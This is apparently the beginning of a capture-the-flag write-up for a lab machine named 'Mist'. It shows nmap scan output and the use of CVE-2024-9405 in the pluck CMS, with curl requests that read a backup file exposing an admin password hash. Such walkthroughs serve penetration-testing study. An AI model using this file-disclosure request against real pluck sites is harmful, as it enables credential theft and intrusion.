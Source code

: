 ## HOST RECON

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-generator: pluck 4.7.18
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Mist - Mist
|_Requested resource was http://10.10.11.17/?file=mist
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 2 disallowed entries 
|_/data/ /docs/
```


## WEB RECON

- http://10.10.11.17/?file=mist

- http://10.10.11.17/login.php

- http://10.10.11.17/docs/

pluck 4.7.18 © 2005-2025. pluck is available under the terms of the GNU General Public License.

Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1 Server at 10.10.11.17 Port 80


#### cve-2024-9405

- https://m3n0sd0n4ld.github.io/patoHackventuras/cve-2024-9405

```
http://10.10.11.17/data/settings/modules/albums/

admin_backup.php
mist.php
mist/
```

```
└─$ curl http://10.10.11.17/data/modules/albums/albums_getimage.php?image=mist.php       
<?php
$album_name = 'Mist';
?>30  
```

```
└─$ curl http://10.10.11.17/data/modules/albums/albums_getimage.php?image=admin_backup.php
<?php
$ww = 'c81dde783f9543114ecd9fa14e8440a2a868bfe0bacdf14d29fce0605c09d5a2bcd2028d0d7a3fa805573d074faa15d6361f44aec9a6efe18b754b3c265ce81e';
?>146  
```

